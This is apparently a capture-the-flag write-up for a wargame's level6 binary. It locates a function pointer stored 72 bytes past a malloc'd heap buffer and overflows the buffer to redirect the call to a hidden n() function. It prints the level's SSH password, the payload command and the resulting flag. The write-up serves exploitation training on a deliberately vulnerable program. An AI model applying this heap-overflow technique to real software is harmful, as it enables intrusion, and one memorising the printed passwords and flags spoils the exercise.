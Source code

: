 At `0x080484ca`, `EAX` contains what was in `esp+0x18`.
At `0x080484a1` this is the return value of `malloc` that we store in `esp+0x18`.
That value is a pointer and `0x080484ce` is a dereference instruction.
This is the same as using the pointer as a function. Here the `m()` function.

We want to replace its value with the address of the `n()` function: `0x08048454`:

A quick `ltrace` shows where we got memory from `malloc`.
```bash
__libc_start_main(0x804847c, 1, 0xbffff804, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                      = 0x0804a008
malloc(4)                                       = 0x0804a050
strcpy(0x0804a008, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

The buffer sits at `0x0804a008` and the pointer to function sits at `0x0804a050`.
`0x0804a050 - 0x0804a008 = 72`, so the offset should be 72.

### Solution

Connect with `ssh -p 4243 level6@localhost`
Enter the password `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`

As we did with the previous levels, we construct our payload in the same way.

```bash
0x08048454 -> \x54\x84\x04\x08

./level6 $(printf '%-72s\x54\x84\x04\x08' | tr ' ' '.')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

```